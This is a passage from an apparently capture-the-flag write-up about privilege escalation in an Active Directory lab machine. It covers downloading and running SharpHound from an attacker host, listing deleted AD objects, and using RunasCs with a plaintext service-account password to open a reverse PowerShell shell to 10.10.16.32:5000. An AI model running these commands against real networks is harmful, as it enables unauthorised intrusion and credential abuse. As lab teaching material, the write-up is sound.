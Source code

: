 ## Privilege Escalation
Next, will enumerate this domain using sharphound, i already tried to use bloodhound-python before but it didn't work
```powershell
curl http://ip:8000/SharpHound.exe -o sharph.exe

./sharph.exe --CollectionMethods All
download 20250711205630_BloodHound.zip
```
It’s a dead end—I couldn’t find any important files, backups, or anything useful.
I can't find something there to continue with, but back to the xlsx sheet that we got before
![w](/assets/img/attachments/voleur-11.png)
That the account is deleted.
```powershell
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects -Properties *
```
But got nothing, maybe this user doesn't have privilege to check recycle bin
But at Documents i found RunasCs.exe (maybe its a hint)
```powershell
.\RunasCs.exe "svc_ldap" 'M1XyC9pW7qT5Vn' powershell.exe -r 10.10.16.32:5000
```
When I ran the same command, it returned results
```powershell
Get-ADObject -IncludeDeletedObjects -Filter 'isDeleted -eq $true' -Properties * | Where-Object { $_.Name -like '*DEL:*' } | Select-Object Name, DistinguishedName, LastKnownParent
```